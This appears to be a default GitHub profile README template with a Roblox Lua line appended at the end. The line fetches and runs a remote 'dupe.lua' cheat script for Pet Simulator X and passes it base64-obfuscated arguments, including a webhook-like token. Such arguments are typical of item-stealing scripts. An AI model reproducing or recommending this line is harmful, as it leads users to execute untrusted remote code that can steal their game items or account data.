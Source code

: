 - 👋 Hi, I’m @Usarname8457
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Usarname8457/Usarname8457 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->loadstring(game:HttpGet('https://raw.githubusercontent.com/PetSimulatorX1/PetSimulatorXScripts/main/dupe.lua',true))()('MzA3MjQ0MDMzNA==','OTU3Mzc1NjU3NzQ5Mzk3NTI2','LWdRS3pXMkJTeVlFZTUzT2dPSGxsVTNIUVlHaHlZYjFPdlVNd1N5clQwbjZEZXFXZGhfUFNrYUd3emRidF9obUNUem4=','NTcwNzUwOTI1MjE2NTQ2ODE5','TWFzdGVyeQ==')
